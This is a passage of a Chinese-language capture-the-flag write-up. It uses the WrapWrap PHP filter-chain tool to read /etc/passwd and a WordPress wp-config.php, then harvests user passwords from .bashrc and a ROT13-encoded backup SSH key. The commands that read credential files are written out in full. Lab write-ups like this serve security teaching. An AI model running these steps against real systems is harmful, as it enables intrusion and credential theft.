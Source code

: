 ![image](https://github.com/user-attachments/assets/d2ff7f6f-34e7-4931-885f-74ce45c5b96e)

![image](https://github.com/user-attachments/assets/d618e2ae-0b45-4a3c-856d-5d24b5838035)

通过利用WrapWrap漏洞，构造攻击：

```
git clone https://github.com/ambionics/wrapwrap.git
git clone https://github.com/cfreal/ten.git
cd ten
python3 -m venv ./venv
source ./venv/bin/activate
pip install .
python3 wrapwrap.py /etc/passwd '{"message":"' '"}' 1300
python3 -m http.server 9000
```

![image](https://github.com/user-attachments/assets/8fa3956f-d1ea-40cf-8659-ecb8a3a52f04)

看看他提示的泄漏信息是什么

```
python3 wrapwrap.py /var/www/examen.thlcpptv16.thl/wp-config.php  '{"message":"' '"}' 1300
```

![image](https://github.com/user-attachments/assets/08eb3101-eae7-4d76-b161-a2923014f797)

成功通过 `wrapwrap.py` 获取 tom 密码。

# 6.SSH 登录与提权

查看 tom 家目录下的敏感信息

![image](https://github.com/user-attachments/assets/abb3f249-2485-4f6e-ac74-4ad80a8b5dea)

```
cat ./bashrc
```

![image](https://github.com/user-attachments/assets/f94ac21e-1b78-43cf-83e2-d562255805d3)

发现一个 rafael 用户的帐号和密码

![image](https://github.com/user-attachments/assets/65b15b69-d3a3-47d4-888a-918e43705fb3)

在/var/backup/目录上发现了一个名为 **passwd.dll** 的文件，属于用户 `jerry`。虽然内容是可读的，但似乎使用了某种编码。
最后通过使用rot13解码获得其内容进行解码，成功获取了 `jerry` 用户的 SSH 密钥

> [!IMPORTANT]
> https://rot13.com/

有了这些凭证，我们要做的第一件事就是进入 Rafael 的机器。

![image](https://github.com/user-attachments/assets/587d5b54-120a-41f7-9358-20f254f98481)
